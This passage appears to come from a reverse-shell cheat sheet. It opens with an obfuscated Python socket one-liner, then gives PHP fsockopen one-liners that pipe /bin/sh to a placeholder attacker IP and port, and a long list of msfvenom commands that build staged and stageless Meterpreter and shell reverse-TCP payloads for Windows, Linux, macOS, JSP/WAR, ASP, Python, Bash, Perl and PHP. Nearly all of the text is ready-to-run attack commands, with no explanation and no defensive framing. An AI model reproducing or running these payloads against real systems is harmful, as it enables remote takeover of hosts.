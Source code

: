 ```
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("IP",port));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

### PHP <a href="#php" id="php"></a>

```
php -r '$sock=fsockopen("IP",port);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("IP",port);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("IP",port);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Meterpreter <a href="#ruby" id="ruby"></a>

#### Windows Staged reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=port -f exe > reverse.exe
```

#### Windows Stageless reverse TCP <a href="#windows-stageless-reverse-tcp" id="windows-stageless-reverse-tcp"></a>

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=port -f exe > reverse.exe
```

#### Linux Staged reverse TCP

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=port -f elf >reverse.elf
```

#### Linux Stageless reverse TCP

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=port -f elf >reverse.elf
```

### MSFVenom

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="IP" LPORT=port -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="IP" LPORT=port -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="IP" LPORT=port -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="IP" LPORT=port -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="IP" LPORT=port -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="IP" LPORT=port -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="IP" LPORT=port -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
